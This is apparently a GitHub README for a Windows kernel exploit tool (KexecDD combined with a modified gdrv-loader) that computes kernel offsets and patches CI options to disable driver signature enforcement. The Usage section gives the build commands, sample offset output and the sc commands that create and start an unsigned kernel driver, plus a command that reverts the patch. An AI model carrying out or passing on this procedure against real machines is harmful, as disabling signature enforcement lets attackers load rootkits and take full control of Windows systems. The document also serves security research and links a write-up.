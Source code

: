 # KexecDD-gdrv-loader
This is the same KExecDD exploit (https://github.com/floesen/KExecDD).

Rather than having to find the correct NTOSKRNL_WRITE_GADGET and CI_OPTIONS using a debugger for Kernel debugging on the target system, this comes together with a modified version of https://github.com/v1k1ngfr/gdrv-loader to calculate these offsets on the target system. A lot of the `gdrv-loader` code base is left untouched and not really needed.

Note: the stubs for `nt!FsRtlInitializeFileLock` and `ci!CiInitialize` might change in newer versions which might break the offset calculation.
This has been tested on a Windows 10 (Build 19045.4191).

This will cause bsod if ran on a system with Virtualization-based Security (VBS) (https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs) enabled.

## Usage

Compile the offsets project and execute the exe on the target system. Get the offsets returned and copied them into the `kexecdd/dllmain.c` and `kexecdd/dllmain_restore.c`:

```
offsets.exe

> Offset CiOptions: 000000000003A478

> Offset asm mov:   0000000000201852
```

Compile the `loader.c`, `dllmain.c` and `dllmain_restore.c` using the x64 Native Tools Command Prompt:

```
cl.exe /nologo /MT /Ox /W0 /GS- /DNDEBUG loader.c /link Advapi32.lib /OUT:exploit.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain.c /link /OUT:exploit.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
cl.exe /LD /nologo /MT /Ox /W0 /GS- /DNDEBUG dllmain_restore.c /link /OUT:restore.dll /SUBSYSTEM:CONSOLE /MACHINE:x64
```

Create the unsigned driver service:

```
sc create unsigned type= kernel binPath= C:\path_to\unsigned.sys
```

Run the exploit:

```
exploit.exe
```

Load the unsigned driver:

```
sc start unsigned
```

Revert the kernel memory patch:

```
exploit.exe 6
```

## More information

[LSASS rings KsecDD ext. 0](https://tierzerosecurity.co.nz/2024/04/29/kexecdd.html)
